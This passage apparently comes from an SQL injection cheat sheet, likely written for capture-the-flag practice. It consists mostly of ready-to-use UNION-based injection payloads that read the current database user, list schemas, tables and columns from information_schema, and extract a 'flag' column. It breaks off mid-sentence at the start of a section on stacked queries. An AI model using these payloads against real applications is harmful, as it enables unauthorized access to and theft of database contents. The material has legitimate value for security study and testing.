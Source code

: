 ```sql
' UNION SELECT NUll, table_name, NULL FROM information_schema.tables--
```

Get current DB user (check for admin permissions)

```sql
')) UNION SELECT 1, user(), '', 1 -- -
```

Enumerate databases

```sql
')) UNION SELECT 1, schema_name, '', 1 FROM information_schema.schemata -- -
```

Enumerate tables inside a target DB

```sql
')) UNION SELECT 1, table_name, '', 1 FROM information_schema.tables WHERE table_schema='target_db' -- -
```

List All Columns in a Table

```sql
')) UNION SELECT 1, column_name, '', 1 FROM information_schema.columns WHERE table_name='target_table' -- -
```

Enumerate columns in a specific table

```sql
')) UNION SELECT 1, column_name, '', 1 FROM information_schema.columns WHERE table_name='target_table' -- -
```

```sql
')) UNION ALL SELECT 1, column_name, "", 1 FROM information_schema.columns WHERE table_name='targetTable' -- -
```

```sql
')) UNION SELECT 1, column_name, '', 1 FROM information_schema.columns WHERE table_name='targetTable' AND column_name='flag' -- -
```

```sql
')) UNION SELECT 1, CONCAT(table_name, '.', column_name), '', 1 FROM information_schema.columns WHERE table_schema='target' -- -
``` 

```sql
')) UNION ALL SELECT 1, flag, '', 1 FROM app.targetTable -- -
``` 

### Stacked Queries

How Stacked Queries Work

Normally, SQL queries sent to a database are supposed to be single, complete commands.
But if an application is vulnerable and does not properly sanitize input, an attacker might inject something like:
